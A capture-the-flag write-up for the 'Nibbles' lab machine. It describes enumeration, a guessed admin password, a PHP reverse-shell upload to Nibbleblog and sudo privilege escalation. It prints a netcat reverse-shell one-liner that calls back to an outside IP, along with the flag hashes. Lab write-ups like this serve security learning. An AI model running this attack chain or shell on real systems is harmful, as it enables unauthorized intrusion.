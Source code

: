 ## Nibbles
*Easy*

Began with port scanning using rustscan.

![](images/nibbles-scan1.png)

![](images/nibbles-scan2.png)

Opened the webpage.

![](images/nibble-web1.png)

Checked the source code.

![](images/nibbles-web2.png)

So I went to /nibbleblog

![](images/nibbles-web3.png)

I then used gobuster.

![](images/nibbles-gob.png)

I opened /admin, but didn't find anything interesting. Then I tried /content. Playing around a little I found /content/private/users.xml. Also the /README file had some version information.

![](images/nibbles-web4.png)

![](images/nibbles-web5.png)

There was a login page at /admin.php

![](images/nibbles-web6.png)

Tried using common credentials like admin:admin but didn't work. With some guessing tried admin:nibbles and got logged in.

![](images/nibbles-web7.png)

Not knowing what to do, I used searchsploit.

![](images/nibbles-search.png)

So there must be some option to upload a file. Looking around, I found file upload in the plugins tab at My Image.

![](images/nibbles-upload.png)

I uploaded a php reverse shell. Then I opened /content/private/plugins/my_image/image.php and found a shell waiting for me at the listener.

![](images/nibbles-shell.png)

Thus I got the user flag.

![](images/nibbles-user.png)

User flag  **1ccddd6b3afe711a191c2df9ad8b6a1d**

Also notice personal.zip. On unzipping it I found monitor.sh. Searching for how to become root, I tried sudo -l

![](images/nibbles-sudo.png)

So if we rewrite this shell script and execute it, we can become root.

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.25 4444 >/tmp/f
```
![](images/nibbles-payload.png)

When you run monitor.sh as ./monitor.sh I got the reverse shell as nibbler. But when used the complete path with sudo, I got the shell as root.

![](images/nibbles-root.png)

Root flag  **f6c1d67b29933657abf8d65ee1689f31**
